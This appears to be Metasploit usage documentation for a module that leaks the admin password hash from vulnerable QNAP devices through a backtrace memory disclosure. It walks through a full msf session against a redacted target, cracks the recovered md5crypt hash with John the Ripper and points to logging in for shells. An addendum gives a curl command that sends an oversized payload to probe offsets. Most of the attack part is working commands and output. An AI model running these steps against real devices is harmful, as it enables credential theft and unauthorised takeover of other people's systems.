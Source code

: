 ## Intro

This is going to be a quick rundown of how to use this module to
retrieve the admin hash from a vulnerable QNAP device.

The defaults I've set should be adequate for blind exploitation, but you
may need to tweak them for your target.

## Options

**OFFSET_START**

You want to set this to a value where you can see a backtrace. Set this
lower if you're not sure. Default is 2000.

**OFFSET_END**

Set this option to a value where you don't see a backtrace. Set this
higher if you're not sure. Default is 5000.

**RETRIES**

Sometimes the attack won't be successful on the first run. This option
controls how many times to retry the attack. Default is 10.

**VERBOSE**

This will tell you how long the binary search took and how many requests
were sent during exploitation. Default is false.

## Usage

Let's run through a successful exploitation. I've tailored the options
to my target. Your target may differ.

```
msf > use auxiliary/gather/qnap_backtrace_admin_hash 
msf auxiliary(qnap_backtrace_admin_hash) > set rhost [redacted]
rhost => [redacted]
msf auxiliary(qnap_backtrace_admin_hash) > set offset_end 3000
offset_end => 3000
msf auxiliary(qnap_backtrace_admin_hash) > set verbose true
verbose => true
msf auxiliary(qnap_backtrace_admin_hash) > run

[*] QNAP [redacted] detected
[*] Binary search of 2000-3000 completed in 5.02417s
[*] Admin hash found at 0x8068646 with offset 2920
[+] Hopefully this is your hash: $1$$vnSTnHkIF96nN6kxQkZrf.
[*] 11 HTTP requests were sent during module run
[*] Auxiliary module execution completed
msf auxiliary(qnap_backtrace_admin_hash) > 
```

We got lucky on this run. Sometimes it takes a couple retries to get the
hash. Now what do we do with it...

```
wvu@kharak:~$ john --wordlist --rules --format=md5crypt shadow
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 SSSE3 20x])
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter2          (admin)
1g 0:00:00:01 DONE (2017-03-15 04:41) 0.8928g/s 24839p/s 24839c/s
24839C/s flipper2..mercury2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$ 
```

Cracked! Now you can log in to the device. Shells await!

## Addendum

I used this `curl` command to test for offsets:

```
curl -kv "https://[redacted]/cgi-bin/cgi.cgi?u=admin&p=$(perl -e 'print "A"x2000' | base64 -w 0)"
```
